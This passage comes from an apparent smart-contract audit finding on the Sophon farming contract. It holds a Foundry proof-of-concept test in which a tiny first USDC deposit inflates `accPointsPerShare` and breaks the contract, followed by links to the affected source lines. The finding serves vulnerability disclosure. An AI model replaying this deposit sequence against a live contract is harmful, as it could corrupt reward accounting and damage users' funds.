 ```solidity
        dai.approve(address(sophonFarming), 1000e18);
        usdc.approve(address(sophonFarming), 10000e18);

        sophonFarming.depositDai(1000e18, 0);
        sophonFarming.deposit(usdcId, 1, 0);

        vm.roll(block.number + 1);

        sophonFarming.massUpdatePools();

        address[] memory users = new address[](1);
        users[0] = deployer;

        uint256[][] memory pendingPoints = sophonFarming.getPendingPoints(
            users
        );

        for (uint i = 0; i < pendingPoints.length; i++) {
            uint256 poolsLength = pendingPoints[i].length;

            for (uint j = 0; j < poolsLength; j++) {
                uint256 currentPoints = pendingPoints[i][j];
                console.log(currentPoints);
            }
        }

        sophonFarming.deposit(usdcId, 10000e18 - 1, 0);

        vm.roll(block.number + 1);

        sophonFarming.massUpdatePools();

        pendingPoints = sophonFarming.getPendingPoints(users);

        for (uint i = 0; i < pendingPoints.length; i++) {
            uint256 poolsLength = pendingPoints[i].length;

            for (uint j = 0; j < poolsLength; j++) {
                uint256 currentPoints = pendingPoints[i][j];
                console.log(currentPoints);
            }
        }
    }
```

## Impact
The `accPointsPerShare` variable becomes too large and breaks contract functionality
## Code Snippet
https://github.com/sherlock-audit/2024-05-sophon/blob/05059e53755f24ae9e3a3bb2996de15df0289a6c/farming-contracts/contracts/farm/SophonFarming.sol#L423-L432
https://github.com/sherlock-audit/2024-05-sophon/blob/05059e53755f24ae9e3a3bb2996de15df0289a6c/farming-contracts/contracts/farm/SophonFarming.sol#L357C1-L385C1
## Tool used
